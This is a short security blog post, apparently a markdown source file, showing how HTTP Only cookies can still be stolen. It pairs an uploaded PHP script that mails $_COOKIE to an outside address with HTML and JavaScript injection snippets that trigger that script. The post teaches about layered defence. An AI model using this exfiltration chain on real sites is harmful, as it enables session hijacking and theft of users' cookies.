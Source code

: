 ```yaml
---
title: HTTP Only Cookies Aren't Perfectly Secure
date: 2018-12-10
tag:
- php
- javascript
- security
---
```

When you're creating cookies on your server side application, it's good security practice to flag the cookie as HTTP Only.  This way, it instructs the browser that it should sandbox this cookie from the client side scripts.  It still will send it between client and server on each subsequent request, but javascript can't access it directly.

<!--more-->

With most things, one single mechanism isn't the only way to secure your website.  Security is multi layer in depth strategies.  That's important to understand when you are using HTTP Only cookies.

**Before you continue: please understand that this is a very contrived example. It's meant to demonstrate the possibility. It's not likely, but it's possible.**

It's still possible to steal HTTP Only cookies from your website. It's just not that easy and requires multiple vulnerabilities in your code - not just client side script injection.

## How to Steal HTTP Only Cookie

Let's look at our code that sets our cookie in our PHP server / backend application.

{{< filename-header "index.php" >}}
```php
<?php
setcookie('my-cookie', 'the value', 0, "", "", false, true);

// more code here
```

The last `true` indicates that we want to have this cookie as HTTP Only.  To verify this, I can open up my dev tools and type `window.cookie` which will return `undefined` in this example.

Next, we need to have a vulnerability that allows users to upload PHP scripts.  You might say "well if they can access PHP, they can already do a bunch of other things anyway!"  That's not true. You might have your user uploads properly secluded from the rest of your application.  Let's create a PHP file that we trick into the user uploads to run as an application.  (For this contrived example, it'll be a plain PHP file. It's possible with other vulnerabilities and misconfigurations to get image files to run as PHP, etc.)

{{< filename-header "/uploads/uuid-here/hacker.php" >}}
```php
<?php
mail('hacker@gmail.com', 'An HTTP only cookie', var_export($_COOKIE, true));
```

Since this is on the same server, it will be served with the HTTP only cookie by the browser.

The last step is to inject a request to this application the same way you'd do some client side script injection.

If you can inject HTML, you might try this:

```html
<img src="/uploads/uuid-here/hacker.php">
```

If you are unable to do that, you can still use Javascript with `fetch()` or, if you're a fan of the image, you can do this:

```javascript
var i = new Image();
i.src="/uploads/uuid-here/hacker.php";
```

## End Notes

Again, like I said, it's not easy. It would require two vulnerabilities or misconfigurations. However, it _is_ possible to steal an HTTP Only cookie.